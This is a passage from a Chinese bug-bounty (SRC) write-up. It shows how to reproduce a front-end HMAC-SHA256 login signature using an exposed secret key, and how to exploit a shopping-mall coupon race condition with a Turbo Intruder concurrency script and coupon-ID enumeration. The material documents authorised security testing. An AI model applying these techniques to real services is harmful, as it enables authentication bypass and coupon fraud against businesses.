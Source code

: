 打完断点，点击明文加签，进行断点调试

![](https://cdn.nlark.com/yuque/0/2025/png/55850010/1755231209634-ef1c8c83-c4d5-43fd-bce3-38f239c1a3b2.png "null")

1. 首先将 `username` 、 `password` 、 `nonce` （随机数）和 `timestamp` （时间戳）拼接成一个字符串 `dataToSign` ，作为待签名的数据
```php
拼接：admin123456drzeh01d5sn1755059730
```
1. 使用 `CryptoJS` 库的 `HmacSHA256` 方法，用 `secretKey` （be56e057f20f883e）对拼接后的字符串进行 HMAC-SHA256 加密，生成 `signature` （签名）
```php
cd5e4af5343372cc5945539cddb67c8d33ae0f9be361c60e935e80b4c5a5f719
```

![](https://cdn.nlark.com/yuque/0/2025/png/55850010/1755231209696-90974581-fd5a-448d-9ca4-b3eca3c41d61.png "null")

1. 这样再替换回到数据包中即可成功登陆了

![](https://cdn.nlark.com/yuque/0/2025/png/55850010/1755231209759-7e139160-b4ef-497e-a906-c8954c4f2e11.png "null")

## 0x9 企业SRC实战分享—优惠卷

这个企业SRC是个商城的web资产应用，一进去，直接使用手机号登陆，因为像这样的可以直接使用手机号登陆（有账号），方便后续的渗透测试，很多功能点可能得登陆进去才可以测试

![](https://cdn.nlark.com/yuque/0/2025/png/55850010/1755231209818-089ebadb-ae23-4481-b9c1-1ecb7470e91b.png "null")

上面图片中，登陆到后台，有好几个功能点跟会员优惠卷有关系，商城优惠卷并发领取，必须得测下

![](https://cdn.nlark.com/yuque/0/2025/png/55850010/1755231209871-d2fa4d7a-9c28-436e-891f-ef8b835671c8.png "null")

点击领取，然后进行抓包测试，可以看到优惠卷的ID，为什么这里我要提下这个ID值呢，因为在后面我们还可以进行优惠卷横向并发，把不同金额的优惠卷ID进行便利并发领取，比如说你新人只能领取100元的，但是你通过ID横向并发领取到了200元的客户回归优惠卷，那么这个对商城是不是就有一定的危害了

![](https://cdn.nlark.com/yuque/0/2025/png/55850010/1755231209956-87a75315-6db7-42ab-8e07-77b72cfad4cf.png "null")

然后可以使用这个并发插件脚本进行爆破，数量可以设置20个即可

```php
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
         concurrentConnections=20,
         requestsPerConnection=100,
         pipeline=False
               )
    for i in range(20):
  engine.queue(target.req, target.baseInput, gate='race1')
    engine.openGate('race1')
    engine.complete(timeout=60)

def handleResponse(req, interesting):
  table.add(req)
```

![](https://cdn.nlark.com/yuque/0/2025/png/55850010/1755231210026-15f13650-fca0-4670-9ba0-f340b7c28500.png "null")
